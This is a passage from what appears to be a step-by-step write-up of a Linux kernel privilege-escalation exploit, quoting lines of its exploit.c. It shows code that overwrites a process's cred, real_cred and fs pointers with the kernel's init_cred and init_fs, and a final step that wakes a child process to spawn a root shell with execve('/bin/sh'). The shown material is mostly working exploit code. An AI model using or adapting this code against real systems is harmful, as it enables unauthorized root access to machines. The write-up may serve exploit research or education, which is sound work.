 - Let's call this `struct task_struct`: become_root_task. This is equivalent to:
```c
(uint32_t*)((void*)(become_root_task->real_cred)) = init_cred & 0xFFFFFFFF;
(uint32_t*)((void*)(become_root_task->real_cred) + 4) = init_cred >> 32;
(uint32_t*)((void*)(become_root_task->cred)) = init_cred & 0xFFFFFFFF;
(uint32_t*)((void*)(become_root_task->cred) + 4) = init_cred >> 32;
(uint32_t*)((void*)(become_root_task->fs)) = init_fs & 0xFFFFFFFF;
(uint32_t*)((void*)(become_root_task->fs) + 4) = init_fs >> 32;
```

## Step11: Get root shell

- [exploit.c#L683](./exploit.c#L683):

```c
wake_child_and_get_root_shell(wake_fd);
```

- [exploit.c#L600](./exploit.c#L600):

```c
void wake_child_and_get_root_shell(int wake_fd)
{
  int w;
  write(wake_fd, &w, sizeof(int));
  wait(NULL);
}
```

- Write to pipe to wake child process and wait for child to exit.
- Child wakeup and spawn shell [exploit.c#L596](./exploit.c#L596):

```c
char *sh_args[] = {"sh", NULL};
execve("/bin/sh", sh_args, NULL);
```